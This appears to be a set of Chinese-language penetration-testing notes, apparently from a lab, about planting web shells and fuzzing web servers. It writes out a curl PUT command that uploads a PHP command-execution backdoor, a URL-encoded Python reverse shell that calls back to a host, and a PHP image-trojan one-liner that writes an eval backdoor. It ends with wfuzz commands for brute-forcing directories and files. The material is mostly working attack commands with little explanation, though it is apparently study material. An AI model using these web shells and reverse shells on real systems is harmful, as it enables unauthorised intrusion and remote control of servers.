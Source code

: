 使用 PUT方式上传后门：  

```
curl -v -X PUT -d '<?php system($_GET["cmd"]);?>' http://192.168.9.20/test/shell.php
```
访问`http://192.168.9.20/test/shell.php?cmd=id`

执行反弹shell

```
python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.9.7%22,666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;pty.spawn(%22/bin/bash%22)%27

```



### 一句话图片木马

1. 制作一句话图片木马 yangge.jpg 

   ```
   <?fputs(fopen("shell20.php","w"),'<?php eval($_POST[yangge]);?>')?> 
   ```

2. 上传图片木马文件 

3. 执行文件包含并生成后门 

4. 通过菜刀连接webshell 


ZAP上传 


bp上传


### 远程文件包含+webshell

# 漏洞存在判定

### 工具：wfuzz

[wfuzz官方文档](http://wfuzz.readthedocs.io/)。

博客：

- https://cloud.tencent.com/developer/article/2187157

- https://blog.csdn.net/JBlock/article/details/88619117

使用方法：

#### 暴破文件和路径

```
使用wfuzz暴力猜测目录的命令如下：  

wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ


使用wfuzz暴力猜测文件的命令如下：  

wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ.php
```
#### 测试URL中的参数
